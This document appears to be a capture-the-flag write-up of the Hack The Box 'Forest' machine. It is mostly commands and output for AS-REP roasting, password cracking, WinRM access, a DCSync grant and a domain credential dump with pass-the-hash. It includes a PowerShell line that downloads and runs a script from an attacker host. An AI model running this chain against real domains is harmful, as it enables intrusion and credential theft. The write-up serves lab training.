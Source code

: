 ```yaml
---
title: "Forest writeup [HTB]"
categories:
    - Writeup
tags:
    - Windows
    - Active Directory
---
```


# Forest

Forest is a Windows-based HTB machine with an Easy difficulty rating. The initial nmap scan reveals open ports including domain, Kerberos, and LDAP services. Exploitation involves enumerating users, obtaining a Kerberos hash for svc-alfresco, cracking the password, and gaining a foothold. Privilege escalation is achieved by abusing Exchange Windows Permissions, creating a new user, granting DCSync rights, and finally dumping domain credentials to obtain Administrator access. The machine was successfully compromised, with user and root flags obtained

Difficulty: Easy
OS: Windows
Rating: 4.6
Release Date: October 12, 2019 5:00 PM (GMT+1)

I began by enumerating the open ports to identify the services running on the box. Noticing port 88, it's likely that this box is a Domain Controller (DC). Additionally, SMB and LDAP are available, which are ideal for gathering more information. Let's start with SMB.

```
Nmap scan report for htb.local (10.10.10.161)
Host is up (0.30s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
```

Using `nxc`, I managed to obtain a list of valid local and domain users by exploiting anonymous login on SMB.

```bash
nxc smb 10.10.10.161 -u '' -p '' --user
```

```bash
Administrator
Guest
DefaultAccount
$331000-VK4ADACQNUCA
SM_2c8eef0a09b545acb
SM_ca8c2ed5bdab4dc9b
SM_75a538d3025e4db9a
SM_681f53d4942840e18
SM_1b41c9286325456bb
SM_9b69f1b9d2cc45549
SM_7c96b981967141ebb
SM_c75ee099d0a64c91b
SM_1ffab36a2f5f479cb
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxc0a90c9
HealthMailbox670628e
HealthMailbox968e74d
HealthMailbox6ded678
HealthMailbox83d6781
HealthMailboxfd87238
HealthMailboxb01ac64
HealthMailbox7108a4e
HealthMailbox0659cc1
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

The easiest attack path when you have a valid list of domain users is to check if any accounts have pre-authentication disabled. That's exactly what I did using the GetNPUsers script from Impacket, and I found the account `svc-alfresco`.

```bash
impacket-GetNPUsers htb.local/ -request -format john -outputfile files/hash.txt
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2024-08-27 19:16:24.316379  2024-08-27 19:15:56.582001  0x410200 

$krb5asrep$svc-alfresco@HTB.LOCAL:82ea9cf186f131cd904ce48c80d5d2f3$973d513bab9a3a49b7b4e7a93b117bd26d54aa2b98917631d3762f0c6d53e5233db24b33d669463dae69a8c7ef37a222dc489b22db725b9718394894e7ab773c25e79a82a4bf2f4dc88b5466be30583c2c40e8d4aa1694cfb19e5846b98a77260209e978ea9c89e11b569b89c026fabf872579bec799a01f59cd9a538d7eda0ddab8dbc925962a35b6b30258911353d3920c7675a7c592c2e89e679b79856bdd0a736d821881ebd242643f2d3974e22c10147e01d1eda31bebd2ad9a210207d89de32061b682b2d45e77a5458ec825514976d8c5885fc9f931f6ce7a49f0db8cefda4c36d0a0
```

now we have the hash of `svc-alfresco` user let try to crack it 

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
s3rvice          ($krb5asrep$svc-alfresco@HTB.LOCAL)     
```

After obtaining valid user credentials, let's start enumerating again to see what actions we can perform with them. Returning to nxc, we found that we can use WinRM to access that user.

```bash
nxc winrm 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
WINRM       10.10.10.161    5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

By gaining shell access, we can retrieve the user flag located on the user's desktop. Upon examining the user's privileges, we discovered that they have interesting permissions that allow the creation of domain users. Using BloodHound, I was able to visualize a clear path to compromising the domain admin. The user is a member of the 'Account Operators' group, which has 'GenericAll' on 'Exchange Windows Permissions.' This, in turn, has 'WriteDACL' on the htb.local domain. By combining these privileges, we can create a domain user, grant them the right to perform a DCSync attack, and obtain the admin hash

```bash
evil-winrm  -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
*Evil-WinRM* PS C:\users\svc-alfresco> cd  C:\users\svc-alfresco
*Evil-WinRM* PS C:\users\svc-alfresco\Desktop> ls
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        8/27/2024   6:45 AM             34 user.txt
```

```bash
*Evil-WinRM* PS C:\users\svc-alfresco\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

```bash
nxc ldap 10.10.10.161 -u 'svc-alfresco' -p 's3rvice' --bloodhound -c all --dns-server 10.10.10.161
```

<!-- ![image.png](/assets/images/posts/Forest_assets/image.png) -->

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user john Password123! /add /domain
The command completed successfully.
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" john /add
The command completed successfully.
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.16.3:8000/PowerView.ps1'))
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $pass = convertto-securestring 'Password123!' -asplain -force 
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $cred = new-object system.management.automation.pscredential('htb\john', $pass)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync
```

we can obtain the adm password using DCsync attack

```bash
impacket-secretsdump 'htb.local/john:Password123!@HTB.LOCAL'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```

```bash
evil-winrm  -i 10.10.10.161 -u 'Administrator' -H 32693b11e6aa90eb43d32c72a07ceea6                                    

*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator> ls
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        8/27/2024   6:45 AM             34 root.txt

```

<!-- ![Screenshot 2024-08-28 011747.png](/assets/images/posts/Forest_assets/Screenshot_2024-08-28_011747.png) -->